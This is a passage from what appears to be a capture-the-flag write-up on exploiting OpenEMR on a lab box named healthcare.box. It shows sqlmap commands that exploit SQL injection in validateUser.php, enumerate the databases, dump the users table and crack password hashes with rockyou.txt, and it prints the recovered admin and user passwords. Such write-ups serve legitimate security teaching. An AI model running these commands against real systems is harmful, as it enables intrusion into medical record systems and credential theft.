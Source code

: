 ## Exploiting OpenEMR

Checking online for exploits against OpenEMR led to the disclosure of several SQL injection vulnerabilities (https://packetstormsecurity.com/files/108328/OpenEMR-4.1.0-SQL-Injection.html). The `validateUser.php` is confirmed to be vulnerable to SQLi:

~~~
kali@kali:/data/healthcare/files$ sqlmap -u http://healthcare.box/openemr/interface/login/validateUser.php?u=1 --dbs

[REDACTED]

---
[14:05:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[14:05:02] [INFO] fetching database names
[14:05:02] [INFO] retrieved: 'information_schema'
[14:05:02] [INFO] retrieved: 'openemr'
[14:05:02] [INFO] retrieved: 'test'
available databases [3]:
[*] information_schema
[*] openemr
[*] test

[REDACTED]
~~~

Now that we have confirmed the vulnerability and got confirmation of the existence of an `openemr` database, we list the tables and notice a `users` table. Let's dump its content:

~~~
kali@kali:/data/healthcare/files$ sqlmap -u http://healthcare.box/openemr/interface/login/validateUser.php?u=1 -D openemr -T users --dump

[REDACTED]

[14:07:31] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[14:07:44] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[14:08:11] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[14:08:16] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:08:16] [INFO] starting 2 processes 
[14:08:16] [INFO] cracked password 'medical' for user 'medical'
[14:08:24] [INFO] cracked password 'ackbar' for user 'admin'
[14:10:42] [INFO] cracked password 'medical' for user 'medical'  
Database: openemr

Table: users
[2 entries]

[REDACTED]
~~~
